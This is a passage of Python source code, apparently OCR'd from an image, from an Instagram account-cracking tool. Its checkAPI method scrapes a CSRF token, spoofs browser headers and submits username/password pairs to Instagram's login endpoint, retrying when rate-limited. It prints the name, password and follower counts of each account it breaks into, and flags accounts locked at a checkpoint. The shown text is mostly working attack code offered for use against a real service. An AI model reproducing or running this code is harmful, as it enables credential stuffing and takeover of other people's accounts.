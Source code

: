 			loop+=1
		except:
			self.crackAPI(user,pas,uaAPI)

	def checkAPI(self,user,pw):
		try:
			token=s.get("https://www.instagram.com/",headers={"user-agent":User_Agent()}).content
			crf_token=re.findall(r"\"csrf_token\"\:\"(.*?)\"", str(token))[0]
			s.headers.update({
				'authority': 'www.instagram.com',
				'x-ig-www-claim': 'hmac.AR08hbh0m_VdJjwWvyLFMaNo77YXgvW_0JtSSKgaLgDdUu9h',
				'x-instagram-ajax': '82a581bb9399',
				'content-type': 'application/x-www-form-urlencoded',
				'accept': '*/*',
				'user-agent': user_agent(),
				'x-requested-with': 'XMLHttpRequest',
				'x-csrftoken': crf_token,
				'x-ig-app-id': '936619743392459',
				'origin': 'https://www.instagram.com',
				'sec-fetch-site': 'same-origin',
				'sec-fetch-mode': 'cors',
				'sec-fetch-dest': 'empty',
				'referer': 'https://www.instagram.com/',
				'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8'
			})

			param={
				"username": user,
				"enc_password": "#PWD_INSTAGRAM_BROWSER:0:{}:{}".format(random.randint(1000000000, 99999999999),pw),
				"optIntoOneTap": False,
				"queryParams": {},
				"stopDeletionNonce": "",
				"trustedDeviceRecords": {}
			}
			x=s.post("https://www.instagram.com/accounts/login/ajax/",data=param);sleep(1)
			x_jason=json.loads(x.text)
			if "userId" in x.text:
				nama,pengikut,mengikut,postingan=self.APIinfo(user)
				print(f"""\r   
  {H}[>]{C} {H}STATUS     : {H}HUSSAIN LIVE
  {H}[>]{C} {H}NAMA         : {H}{nama}{C}
  {H}[>]{C} {H}Username : {H}{user}{C}
  {H}[>]{C} {H}Password  : {H}{pw}{C}
  {H}[>]{C} {H}Pengikut    : {H}{pengikut}{C}
  {H}[>]{C} {H}Mengikuti  : {H}{mengikut}{C}
  {H}[>]{C} {H}Postingan  : {H}{postingan}{C}
				""")
			elif 'checkpoint_url' in x.text:
				nama,pengikut,mengikut,postingan=self.APIinfo(user)
				print(f"""\r  
  {M}[>]{C} STATUS :  CHEKCPOINT
  {M}[>]{C} NAMA: {M}{nama}{C}
  {M}[>]{C} Username: {M}{user}{C}
  {M}[>]{C} Password: {M}{pw}{C}
  {M}[>]{C} Pengikut: {M}{pengikut}{C}
  {M}[>]{C} Mengikuti: {M}{mengikut}{C}
  {M}[>]{C} Postingan: {M}{postingan}{C}
				""")
			elif 'Please wait a few minutes' in str(x.text):
				sys.stdout.write(f"\r [{U}!{C}] {U}Please wait a few minutes second{C}");sys.stdout.flush();sleep(10)
				self.checkAPI(user,pw)
		except:
